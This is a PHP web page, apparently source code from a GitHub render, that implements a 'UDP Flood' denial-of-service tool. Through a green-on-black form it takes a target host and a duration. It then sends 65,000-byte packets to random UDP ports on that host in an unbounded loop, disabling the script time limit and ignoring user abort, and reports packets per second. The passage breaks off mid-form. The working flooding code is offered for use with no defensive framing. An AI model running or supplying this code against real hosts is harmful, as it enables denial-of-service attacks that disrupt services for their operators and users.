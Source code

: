 <html>
<body>
<title>
UDP Flood</title>
<font color="00FF00">

<center>
<STYLE>
input{
background-color: #00FF00; font-size: 8pt; color: black; font-family: Tahoma; border: 1 solid white;
}
button{
background-color: #00FF00; font-size: 8pt; color: black; font-family: Tahoma; border: 1 solid white;
}
body {
background-color: black;
}
</style>
</br>
</br>
</br>
</br>
</br>
<?php
//UDP
if(isset($_GET['host'])&&isset($_GET['time'])){
    $packets = 0;
    ignore_user_abort(TRUE);
    set_time_limit(0);

    $exec_time = $_GET['time'];

    $time = time();
    //print "Started: ".time('d-m-y h:i:s')."<br>";
    $max_time = $time+$exec_time;

    $host = $_GET['host'];

    for($i=0;$i<65000;$i++){
    $out .= 'X';
    }
    while(1){
    $packets++;
    if(time() > $max_time){
  break;
    }
    $rand = rand(1,65000);
    $fp = fsockopen('udp://'.$host, $rand, $errno, $errstr, 5);
    if($fp){
  fwrite($fp, $out);
  fclose($fp);
    }
    }
    echo "<br><b>UDP Flood</b><br>Completed with $packets (" . round(($packets*65)/1024, 2) . " MB) packets averaging ". round($packets/$exec_time, 2) . " packets per second \n";
    echo '<br><br>
  <form action="'.$surl.'" method=GET>
  <input type="hidden" name="act" value="phptools">
  Host: <br><input type=text name=host><br>
  Length (seconds): <br><input type=text name=time><br>
  <input type=submit value=Go></form>';
}else{ echo '<br><b>UDP Flood</b><br>
    <form action=? method=GET>
    <input type="hidden" name="act" value="phptools">